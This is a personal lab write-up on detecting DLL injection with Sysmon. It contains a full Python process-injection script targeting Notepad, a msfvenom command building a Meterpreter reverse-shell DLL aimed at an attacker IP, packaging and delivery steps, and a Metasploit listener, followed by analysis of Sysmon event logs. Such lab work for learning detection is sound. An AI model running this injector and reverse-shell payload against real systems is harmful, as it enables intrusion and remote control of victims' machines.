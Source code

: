 # Detection of Simple DLL Injection with Sysmon

## Introduction

In this lab, I infected a virtual Windows machine with an executable containing a simple payload.  
The executable was written in Python and its objective was to inject a DLL into a running Windows service (Notepad).  
The primary goal was to detect signs of this malicious behavior through Sysmon logs and evaluate how native Windows defenses respond.

**Tools Used**: Sysmon, Metasploit, Wine, Kali Linux, Event Viewer, Python, PyInstaller, Oracle VirtualBox

### Sysmon Configuration

![Image](https://github.com/user-attachments/assets/9622ffff-10ed-45c0-9805-0e5931343393)

---

## Malware Creation and Delivery

### Creating the Injection Script

To perform DLL injection, I used a simple Python script found online.

```python
import ctypes
import ctypes.wintypes as wintypes
import psutil

# Initialize kernel32
kernel32 = ctypes.WinDLL("kernel32.dll", use_last_error=True)

# Constants
PROCESS_ALL_ACCESS = 0x1F0FFF
MEM_COMMIT = 0x00001000
PAGE_READWRITE = 0x04

# Function to get notepad's PID
def get_notepad_pid():
    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'].lower() == 'notepad.exe':
            return proc.info['pid']
    return None

# Get notepad's PID
pid = get_notepad_pid()
if not pid:
    print("Notepad not found")
    exit(1)

# Path to payload
dll_path = "test2.dll"

# Open target process
h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, pid)

# Allocate memory in target process
arg_address = kernel32.VirtualAllocEx(h_process, 0, len(dll_path) + 1, MEM_COMMIT, PAGE_READWRITE)

# Write DLL path to allocated memory
written = ctypes.c_size_t(0)
kernel32.WriteProcessMemory(h_process, arg_address, dll_path.encode('utf-8'), len(dll_path) + 1, ctypes.byref(written))

# Get LoadLibraryA address
h_kernel32 = kernel32.GetModuleHandleA(b'kernel32.dll')
load_library = kernel32.GetProcAddress(h_kernel32, b'LoadLibraryA')

# Create remote thread in target process
kernel32.CreateRemoteThread(h_process, None, 0, load_library, arg_address, 0, None)
```

The PID of the process changes every time that a new process is run, so it was necessary to insert this 
function to find the PID of the notepad automatically:

```python
def get_notepad_pid():
   for proc in psutil.process_iter(['pid', 'name']):
       if proc.info['name'].lower() == 'notepad.exe':
          return proc.info['pid']
   return None

pid = get_notepad_pid()
```

### Embedding the Payload

Was generated the malicious DLL payload using Metasploit's `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f dll > test.dll
```

### Creating the Executable

Initially, I used PyInstaller to compile the Python script into an executable. However, running the resulting binary on the target machine failed due to environment compatibility issues.  
To solve this, I used **Wine** on Kali Linux to simulate a Windows environment and generate a compatible executable.


1. **Steps**

```bash
wget https://www.python.org/ftp/python/3.10.9/python-3.10.9-amd64.exe
wine python-3.10.9-amd64.exe
wine cmd
python -m pip install pyinstaller
pyinstaller --onefile --add-data "payload.dll;." injection.py
```

### Delivery Method

To deliver the payload, I used a simple Python HTTP server on the attacker machine and set up a listener.

```bash
python3 -m http.server 8000
```
![Image](https://github.com/user-attachments/assets/8654a2ea-66e0-465f-bfb9-918f40ed46b8)

ON THE TARGET MACHINE:

![Image](https://github.com/user-attachments/assets/8a158433-7f37-4a79-909c-2df56d66ccc2)
---

## Execution on the Target Machine and Sysmon Log Analysis

Despite disabling basic Windows Defender features, getting a stable reverse connection was challenging. Still, Sysmon successfully logged multiple indicators of compromise.

![Image](https://github.com/user-attachments/assets/0255d64d-235d-4f04-9724-b835fa43fb43)

---

## Log Analysis

### Event ID 1: Process Create

```
UtcTime: 2025-05-08 13:21:20.798
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
ParentImage: C:\Windows\explorer.exe
Hashes: MD5=..., SHA256=...
```

**Explanation**: Event ID 1 logs every process creation. Although not inherently malicious, indicators like missing file metadata and hash verification help identify suspicious files.  
The parent process being `explorer.exe` suggests user interaction (manual execution).

### Event ID 13: Registry Event

```
UtcTime: 2025-05-08 13:21:22.977
Image: C:\Windows\system32\svchost.exe
TargetObject: HKU\...\AppCompatFlags\Compatibility Assistant\Store\...injection.exe
```

**Explanation**: This shows `svchost.exe` modifying the registry to store information about the executed file.  
Windows uses this Compatibility Assistant key when unusual behavior is detected.

### Event ID 5: Process Terminated

```
UtcTime: 2025-05-08 13:21:20.958
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
```

**Explanation**: The process was terminated shortly after execution, possibly due to Windows security defenses or a code error.  
To proceed with the Sysmon log analysis, I created a simpler malware sample whose only purpose was to initiate a remote connection.

```bash
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST ##.##.##.##
set LPORT 4444
run
```


![Image](https://github.com/user-attachments/assets/654d581d-448b-41fd-9989-a6007542fccf)

### Event ID 3: Network Connection

```
UtcTime: 2025-05-08 17:16:34.953
ProcessId: 5104
Image: C:\Users\home\Downloads\final.exe
DestinationIp: ##.##.##.#
DestinationPort: 4444
```

**Explanation**: This log confirms the reverse shell behavior. `final.exe` attempts to connect to the attacker's listener, typically used by tools like Metasploit.

---

## Conclusion

This lab was extremely valuable for deepening my understanding of Sysmon logging and key Windows processes such as `svchost.exe`, `explorer.exe`, and `rundll32.exe`.  
Although I was not able to successfully execute the first malware sample, the process of creating and troubleshooting it gave me significant hands-on experience.  
I plan to conduct a follow-up lab to further explore DLL injection techniques and Windows process behavior in greater detail.
